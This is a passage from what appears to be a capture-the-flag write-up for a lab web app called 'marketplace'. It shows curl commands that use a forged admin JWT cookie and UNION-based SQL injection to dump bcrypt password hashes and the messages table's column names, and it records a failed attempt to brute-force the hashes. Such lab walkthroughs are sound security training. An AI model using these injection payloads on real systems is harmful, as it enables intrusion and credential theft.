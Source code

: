 ~~~
</html>
~~~

Passwords:

~~~
$ curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://10.10.4.48/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(password),3,4 FROM marketplace.users"` | tail

      <h1 style="text-align: center">User 1</h1>
      <div>
          User $2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW,$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q,$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG,$2b$10$oX4eZCpFWnJV0Xj.OemYqOy4RAepVk.Tu56TvYqB/FpPEOKf00tOC <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
  </body>
</html>
~~~

I tried to brute force the following hashes, but it failed:

~~~
jake:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW
michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q
system:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG
test:$2b$10$oX4eZCpFWnJV0Xj.OemYqOy4RAepVk.Tu56TvYqB/FpPEOKf00tOC
~~~

### Messages table

**Messages table columns**

~~~
$ curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://10.10.4.48/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(column_name),3,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='messages'"` | tail

      <h1 style="text-align: center">User 1</h1>
      <div>
          User id,is_read,message_content,user_from,user_to <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
  </body>
</html>
~~~

**Dump the messages**
